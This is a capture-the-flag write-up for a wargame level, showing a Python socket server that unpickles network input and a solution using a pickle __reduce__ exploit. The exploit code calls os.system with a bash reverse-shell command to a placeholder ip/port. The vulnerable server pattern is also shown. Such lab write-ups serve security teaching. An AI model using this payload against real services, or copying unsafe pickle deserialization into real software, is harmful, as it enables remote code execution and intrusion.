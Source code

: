 # level17

## Challenge info

There is a python script listening on port 10007 that contains a vulnerability. <br>

To do this level, log in as the level17 account with the password level17. Files for his level can be found in /home/flag17.

```
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

## Solution

This is a pretty well-known vulnerability, within the pickle library, if not correctly handled <br>

the vulnerable line is
```
obj = pickle.loads(line)
```

To exploit this, it is required that a class is created with a reduce method that returns two things
```
method_to_use, (command, args)
```

The required exploit (in this simple case) is composed with the following class
```
class Exploit(object):
        def __reduce__(self):
                method = os.system
                cmd = "bash -i >& /dev/tcp/ip/port 0>&1"
                return method, (cmd,)


payload = pickle.dumps(Exploit())
```

This is all is needed (besides the communication instructions)

## Flag

```
You have successfully executed getflag on a target account
```